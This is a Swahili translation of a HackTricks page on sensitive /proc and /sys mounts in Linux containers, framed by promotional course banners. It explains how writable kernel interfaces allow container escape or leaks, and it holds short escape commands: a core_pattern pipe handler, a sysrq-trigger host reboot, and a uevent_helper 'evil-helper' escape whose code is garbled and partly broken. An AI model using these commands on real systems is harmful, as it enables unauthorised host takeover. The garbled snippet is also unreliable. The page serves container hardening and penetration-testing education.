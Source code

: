 # Vipimo Vyenye Hisia

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Kufichua `/proc` na `/sys` bila kujitenga kwa njia sahihi ya namespace inaleta hatari kubwa za usalama, ikiwa ni pamoja na kuongezeka kwa eneo la mashambulizi na kufichua habari. Direktori hizi zina faili nyeti ambazo, ikiwa hazijasakinishwa vizuri au kupatikana na mtumiaji asiyeidhinishwa, zinaweza kusababisha kutoroka kwa kontena, mabadiliko kwenye mwenyeji, au kutoa habari itakayosaidia mashambulizi zaidi. Kwa mfano, kusakinisha kimakosa `-v /proc:/host/proc` kunaweza kukiuka ulinzi wa AppArmor kutokana na asili yake ya msingi wa njia, kuacha `/host/proc` bila ulinzi.

**Unaweza kupata maelezo zaidi ya kila vuln inayowezekana katika** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## Mipasuko ya procfs

### `/proc/sys`

Direktori hii inaruhusu upatikanaji wa kurekebisha vipimo vya kernel, kawaida kupitia `sysctl(2)`, na ina vijitengo kadhaa vya wasiwasi:

#### **`/proc/sys/kernel/core_pattern`**

* Imeelezewa katika [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Inaruhusu kufafanua programu ya kutekelezwa wakati wa kizazi cha faili ya msingi na herufi 128 za kwanza kama hoja. Hii inaweza kusababisha utekelezaji wa nambari ikiwa faili inaanza na mrija `|`.
*   **Mfano wa Majaribio na Uchimbaji**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Jaribu upatikanaji wa kuandika
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Weka kikandamizi cha desturi
sleep 5 && ./crash & # Kuzindua kikandamizi
```

#### **`/proc/sys/kernel/modprobe`**

* Maelezo zaidi katika [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Ina njia ya mzigo wa moduli ya kernel, inayoitwa kwa ajili ya kupakia moduli za kernel.
*   **Mfano wa Kuangalia Upatikanaji**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Angalia upatikanaji wa modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Inatajwa katika [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Bendera ya ulimwengu inayodhibiti ikiwa kernel inapaniki au inaita OOM killer wakati hali ya OOM inatokea.

#### **`/proc/sys/fs`**

* Kulingana na [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), ina chaguo na habari kuhusu mfumo wa faili.
* Upatikanaji wa kuandika unaweza kuwezesha mashambulizi mbalimbali ya kukataa huduma dhidi ya mwenyeji.

#### **`/proc/sys/fs/binfmt_misc`**

* Inaruhusu kujiandikisha wachambuzi kwa muundo wa binary usio wa asili kulingana na nambari zao za uchawi.
* Inaweza kusababisha upandishaji wa hadhi au ufikiaji wa kabati ya mzizi ikiwa `/proc/sys/fs/binfmt_misc/register` inaweza kuandikwa.
* Udukuzi na maelezo yanayofaa:
* [Rootkit ya maskini kupitia binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Mafunzo ya kina: [Kiungo cha Video](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Nyingine katika `/proc`

#### **`/proc/config.gz`**

* Inaweza kufunua usanidi wa kernel ikiwa `CONFIG_IKCONFIG_PROC` imezimwa.
* Inaweza kutumika na wadukuzi kutambua mapungufu katika kernel inayotumika.

#### **`/proc/sysrq-trigger`**

* Inaruhusu kuita amri za Sysrq, ikisababisha uanzishaji wa haraka wa mfumo au hatua nyingine muhimu.
*   **Mfano wa Kuwasha Upya Mwenyeji**:

```bash
echo b > /proc/sysrq-trigger # Kuwasha upya mwenyeji
```

#### **`/proc/kmsg`**

* Inafichua ujumbe wa pete ya kernel.
* Inaweza kusaidia katika udukuzi wa kernel, kuvuja kwa anwani, na kutoa habari nyeti ya mfumo.

#### **`/proc/kallsyms`**

* Inaorodhesha ishara zilizosafirishwa za kernel na anwani zao.
* Muhimu kwa maendeleo ya udukuzi wa kernel, hasa kwa kushinda KASLR.
* Habari ya anwani inazuiliwa na `kptr_restrict` ikiwa imewekwa kama `1` au `2`.
* Maelezo katika [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Inashirikiana na kifaa cha kumbukumbu ya kernel `/dev/mem`.
* Kihistoria lilikuwa na mapungufu ya kufikia hadhi ya juu.
* Zaidi katika [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Inawakilisha kumbukumbu ya kimwili ya mfumo katika muundo wa msingi wa ELF.
* Kusoma kunaweza kufichua kumbukumbu ya mwenyeji na yaliyomo ya kumbukumbu ya kontena zingine.
* Ukubwa mkubwa wa faili unaweza kusababisha matatizo ya kusoma au kuharibika kwa programu.
* Matumizi ya kina katika [Kudondosha /proc/kcore mnamo 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Kiolesura mbadala kwa `/dev/kmem`, ikionyesha kumbukumbu ya virtual ya kernel.
* Inaruhusu kusoma na kuandika, hivyo kurekebisha moja kwa moja kumbukumbu ya kernel.

#### **`/proc/mem`**

* Kiolesura mbadala kwa `/dev/mem`, ikionyesha kumbukumbu ya kimwili.
* Inaruhusu kusoma na kuandika, marekebisho ya kumbukumbu yote yanahitaji kutatua anwani za virtual hadi kimwili.

#### **`/proc/sched_debug`**

* Inarudi habari ya ratiba ya mchakato, ikipuuza ulinzi wa nafasi ya PID.
* Inafichua majina ya mchakato, vitambulisho vya ID, na kitambulisho cha cgroup.

#### **`/proc/[pid]/mountinfo`**

* Hutoa habari kuhusu maeneo ya kufunga katika nafasi ya kufunga ya mchakato.
* Inafichua eneo la `rootfs` au picha ya kontena.

### Mipasuko ya `/sys`

#### **`/sys/kernel/uevent_helper`**

* Hutumiwa kushughulikia vifaa vya kernel `uevents`.
* Kuandika kwa `/sys/kernel/uevent_helper` kunaweza kutekeleza hati za kubahatisha wakati wa kichocheo cha `uevent`.
*   **Mfano wa Uchimbaji**: %%%bash

### Inajenga mzigo

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### Inapata njia ya mwenyeji kutoka kwa mlima wa OverlayFS kwa kontena

njia_ya_mwenyeji=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### Inaweka uevent\_helper kwa msaidizi wa hatari

echo "$njia_ya_mwenyeji/evil-helper" > /sys/kernel/uevent_helper

### Inachochea uevent

echo change > /sys/class/mem/null/uevent

### Inasoma matokeo

cat /output %%%
#### **`/sys/class/thermal`**

* Inadhibiti mipangilio ya joto, ikisababisha mashambulizi ya DoS au uharibifu wa kimwili.

#### **`/sys/kernel/vmcoreinfo`**

* Inavuja anwani za kernel, ikisababisha uwezekano wa kuhatarisha KASLR.

#### **`/sys/kernel/security`**

* Ina `securityfs` interface, ikiruhusu usanidi wa Modules za Usalama za Linux kama AppArmor.
* Upatikanaji unaweza kuwezesha kontena kulemaza mfumo wake wa MAC.

#### **`/sys/firmware/efi/vars` na `/sys/firmware/efi/efivars`**

* Inafunua interfaces za kuingiliana na EFI variables katika NVRAM.
* Usanidi mbaya au kutumia vibaya kunaweza kusababisha kompyuta zenye matatizo au mashine za mwenyeji zisizoweza kuanza.

#### **`/sys/kernel/debug`**

* `debugfs` inatoa interface ya kudebug "bila sheria" kwa kernel.
* Historia ya masuala ya usalama kutokana na asili yake isiyo na kizuizi.

### Marejeo

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Kuelewa na Kufanya Linux Containers Kuwa Imara](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Kutumia Vibaya Kontena za Linux zenye Mamlaka na Zisizo na Mamlaka](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Jifunze kuhusu kuvunja usalama wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
